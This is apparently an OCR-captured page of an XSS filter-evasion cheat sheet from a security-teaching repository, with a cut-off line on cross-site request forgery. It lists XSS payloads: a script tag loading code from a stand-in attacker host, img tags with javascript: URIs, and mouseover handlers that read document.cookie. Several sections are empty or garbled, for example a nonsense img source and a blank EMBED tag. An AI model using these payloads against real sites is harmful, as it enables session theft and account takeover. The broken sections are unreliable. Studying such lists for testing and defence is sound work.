 Cross-site Request Forgery (CSRF)

unauthorized commands from a trusted user...


Evading techniques 

Non-obfuscated Xss string
<SCRIPT SRC=http://malicious.h4cker.org/xss.js></SCRIPT>

<h2>Using HTML <img> for evasion</h2>

<img src="javascript:alert('xss');">
<img src=javascript:alert('xss')>
<img src="javascript:alert(&quot;XSS&quot;)>
<img src="javascript:alert('xss')>


<h2> Using malformed HTML tags </h2>

<a onmouseover="alert(document.cookie)"> This is a malicious link</a>
<a onmouseover=alert(document.cookie)> This is a malicious link</a>

<h2>Using hex HTML characters</h2>
<img src=afanfbefabefba>


<h2>Using ASCII encoding</h2>

<h2>Embedding SVG files to include XSS</h2>

<EMBED SRC=""></EMBED>

